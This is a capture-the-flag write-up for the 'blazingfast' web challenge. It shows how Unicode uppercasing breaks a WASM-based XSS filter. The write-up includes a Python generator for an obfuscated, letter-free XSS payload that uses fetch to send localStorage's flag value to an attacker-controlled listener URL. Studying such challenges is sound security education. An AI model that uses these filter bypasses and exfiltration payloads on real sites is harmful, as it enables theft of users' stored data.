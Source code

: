 ## Blazingfast

In this chall, we are given a blazing fast MoCkInG CaSe converter written by WASM. Take a look at its source code

index file:

```javascript
    let blazingfast = null;

function mock(str) {
	blazingfast.init(str.length);

	if (str.length >= 1000) return 'Too long!';

	for (let c of str.toUpperCase()) {
		if (c.charCodeAt(0) > 128) return 'Nice try.';
		blazingfast.write(c.charCodeAt(0));
	}

	if (blazingfast.mock() == 1) {
		return 'No XSS for you!';
	} else {
		let mocking = '', buf = blazingfast.read();

		while(buf != 0) {
			mocking += String.fromCharCode(buf);
			buf = blazingfast.read();
		}

		return mocking;
	}
}

function demo(str) {
	document.getElementById('result').innerHTML = mock(str);
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {	
	blazingfast = instance.exports;

	document.getElementById('demo-submit').onclick = () => {
		demo(document.getElementById('demo').value);
	}

	let query = new URLSearchParams(window.location.search).get('demo');

	if (query) {
		document.getElementById('demo').value = query;
		demo(query);
	}
})
```
blazingfast.c file:

```c
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

We can see that the `demo` function is called whenever we click on *Mock me* button. And the `demo` function will call `mock` function which was written in javascript. What this function do is get the length of our input before upper our string and it leads to [inconsistencies in length measurement of some Unicode characters](https://stackoverflow.com/questions/49895784/change-to-length-with-touppercase). I can explain it briefly: you have a special character and after uppercase that character, it will turn into 2 or 3 character. If we use a string of many special characters and its string length is greater than our payload, we can bypass the filter and inject XSS to the program.

However, when we input our payload, some of the input character will be convert to uppercase and the payload will not work. For example, `eval()` will work but `EVAL()` will not work. So we must find a way to bypass this. We can bypass this using the method was provided in this [post](https://techiavellian.com/constructing-an-xss-vector-using-no-letters). Please read that post to understand the method.

We can use the above method to create a function, then convert the inject code we want to octal to inject. We can't continue to use the above method because of the limit of the buffer (1000). Please remember that we must put our octal code in `""` and add a slash before every character in octal form to make it work.

The payload will be like this: `<img src=1 onerror='fetch("https://ATTACKER_URL/?" + localStorage.getItem("flag"))'>` with the fetch part written with the method above. Remember to use special character to help our payload bypass the filter. One special character can turn into 2 or 3 characters after uppercase, so the number of special character will be equal to length(payload)/2 and plus 1 to make sure it enough to cover our payload. The formula for the payload is: `special character*(length(payload)/2+1)+payload`.

This is my code to create the payload. The url I use to listen to request is *https://en3lcrt2nuh0hsi.m.pipedream.net*, so I convert it to octal form and encode the url or it will not work. Please remember to change the payload using your url.

```python

payload = '<img src=1 onerror=\'""[(!1+"")[3]+(!0+"")[2]+({}+"")[2]][({}+"")[5]+({}+"")[1]+((""[(!1+"")[3]+(!0+"")[2]+({}+"")[2]])+"")[2]+(!1+"")[3]+(!0+"")[0]+(!0+"")[1]+(!0+"")[2]+({}+"")[5]+(!0+"")[0]+({}+"")[1]+(!0+"")[1]]("\\146\\145\\164\\143\\150\\050\\042\\150\\164\\164\\160\\163\\072\\057\\057\\145\\156\\063\\154\\143\\162\\164\\062\\156\\165\\150\\060\\150\\163\\151\\056\\155\\056\\160\\151\\160\\145\\144\\162\\145\\141\\155\\056\\156\\145\\164\\057\\077\\042\\053\\154\\157\\143\\141\\154\\123\\164\\157\\162\\141\\147\\145\\056\\147\\145\\164\\111\\164\\145\\155\\050\\042\\146\\154\\141\\147\\042\\051\\051")()\'>'
special_char = 'ﬃ'
print(special_char*(len(payload)//2+1)+requests.utils.quote(payload))

```

Then I use the output from the code above to paste it in the admin bot url. The url will be like this:

`https://blazingfast.mc.ax/?demo=<your payload>&submit=Submit`

After a while, I receive the flag

![success](https://live.staticflickr.com/65535/51868510312_cfd760c8b7_z.jpg)


You can solve this chall by another way which is used in this [post](https://19521646.gitbook.io/wu-ctf/dicectf).

I also read this [writeup](https://ctf.zeyu2001.com/2022/dicectf-2022/blazingfast?fbclid=IwAR31D10A-j2KTB54FDedcwtuE0mmcaqorThG3tb_A-9C46vWIl93xMeAGok) to be able to solve this challenge.